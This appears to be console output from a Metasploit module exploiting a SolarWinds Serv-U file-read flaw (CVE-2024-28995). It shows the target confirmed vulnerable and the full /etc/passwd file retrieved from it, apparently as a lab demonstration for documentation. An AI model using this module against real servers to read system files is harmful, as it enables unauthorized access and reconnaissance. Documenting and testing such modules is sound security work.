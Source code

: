 ```
[+] The target is vulnerable. SolarWinds Serv-U version 15.4.2.126 (Linux 64-bit; Version: 6.5.0-15-generic)
[*] Reading file /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:115::/run/uuidd:/usr/sbin/nologin
systemd-oom:x:108:116:systemd Userspace OOM Killer,,,:/run/systemd:/usr/sbin/nologin
tcpdump:x:109:117::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
avahi:x:114:121:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:115:122:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
rtkit:x:116:123:RealtimeKit,,,:/proc:/usr/sbin/nologin
whoopsie:x:117:124::/nonexistent:/bin/false
sssd:x:118:125:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
speech-dispatcher:x:119:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
nm-openvpn:x:120:126:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
saned:x:121:128::/var/lib/saned:/usr/sbin/nologin
colord:x:122:129:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:123:130::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:124:131:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:125:65534::/run/gnome-initial-setup/:/bin/false
hplip:x:126:7:HPLIP system user,,,:/run/hplip:/bin/false
gdm:x:127:133:Gnome Display Manager:/var/lib/gdm3:/bin/false
mysql:x:128:136:MySQL Server,,,:/nonexistent:/bin/false
fwupd-refresh:x:129:137:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
xrdp:x:130:138::/run/xrdp:/usr/sbin/nologin

[*] Auxiliary module execution completed
msf6 auxiliary(gather/solarwinds_servu_fileread_cve_2024_28995) > 
```
